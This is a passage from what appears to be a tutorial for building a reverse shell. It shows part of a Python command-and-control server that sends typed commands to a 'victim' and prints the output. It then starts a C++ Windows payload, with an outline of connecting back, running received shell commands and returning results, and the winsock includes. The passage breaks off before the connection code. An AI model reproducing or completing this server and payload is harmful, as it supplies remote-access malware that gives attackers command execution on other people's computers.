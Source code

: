 ```python

	while len(f_msg) < msg_len:
		f_msg += sock.recv(msg_len - len(f_msg))

	return f_msg

def send_msg(sock: socket.socket, msg: bytes) -> None:

	f_msg = struct.pack("!I", len(msg)) + msg
	sock.sendall(f_msg)

while True:

	cmd = input("Enter command: ")
	send_msg(c_sock, bytes(cmd, 'utf-8'))

	output = recv_msg(c_sock)
	print(output.decode('utf-8'))
```

**NOTE**: There is no error handling or input sanitization in this code, if the victim disconnects while we are sending our message the code will stop execution. This can be implemented later though.

## The Payload

Now that our server has been complete we need to create the payload (this is the code that the victim will run).
I'll be using C++ to create the payload as it doesn't require any additional dependencies to run, if I were to use Python then the victim would need to have Python installed on their system. Now I could use something like `pyinstaller` to compile the code into an exe but these can be easily reverse engineered.

This will be the structure of the payload:
- Connect to the server
- Receive a shell command
- Execute the shell command
- Send the output to the server
- Accept a new shell command

The payload is going to target Windows computers so I'll be using `winsock2` for connecting to the socket. First let's include the necessary dependencies:

```cpp
#include <stdlib.h>
#include <winsock2.h>
#include <ws2tcpip.h>
#include <string>
#include <vector>

#pragma comment(lib, "Ws2_32.lib")
```

Now we create our main function and connect to the server:
